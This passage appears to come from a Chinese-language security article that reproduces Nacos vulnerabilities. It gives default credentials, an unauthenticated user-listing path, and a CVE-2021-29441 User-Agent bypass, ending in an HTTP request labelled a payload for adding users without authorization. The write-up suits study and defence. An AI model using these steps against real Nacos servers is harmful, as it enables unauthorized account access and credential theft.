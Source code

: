 ![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia0O0vrGkdtah21avqbuDeJxRXzksb5Yf06VyWOwsHVDIEdpdrEoJkKA/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
默认口令为： nacos/nacos  
### 3.默认未开启鉴权-未授权查看用户信息  
  
由于系统默认未开启鉴权 导致未授权访问  
  
nacos.core.auth.enabled=false  
#### 漏洞复现  
  
测试版本：nacos1.4.0  
  
直接访问如下路径，未授权查看用户信息  
  
/nacos/v1/auth/users?pageNo=1&pageSize=9  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaqmJd48lMJgibATGuiaSqxlwzQ00Pnt2YaapUxpUHaCicmKMKhzXJic7qDA/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
### 4. User-Agent权限绕过（CVE-2021-29441）  
  
漏洞描述: 该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。  
  
  
版本: <=Nacos 1.4.1 配置为使用身份验证（nacos.core.auth.enabled=true）  
  
直接访问下面的目录，可以未授权查看到账号密码  
  
/nacos/v1/auth/users?pageNo=1&pageSize=100 //可查看到用户列表  
  
可以看下里面的账号密码，很多情况下账号密码都是这个暴露出来的username，和password信息  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaA9yJbOx2mwfib11UT7ZPsJbRxlsx41qOm155icZibHN6yVCfgKLI2VB2Q/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
未授权添加用户  
  
payload:  
  
POST /nacos/v1/auth/users HTTP/1.1  
  
Host:   
  
User-Agent: Nacos-Server  
  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate, br  
  
Connection: keep-alive  
  
Upgrade-Insecure-Requests: 1  
  
If-Modified-Since: Wed, 28 Jul 2021 11:28:45 GMT  
  
Priority: u=0, i  
  
Content-Type: application/x-www-form-urlencoded  
  
Content-Length: 30  
  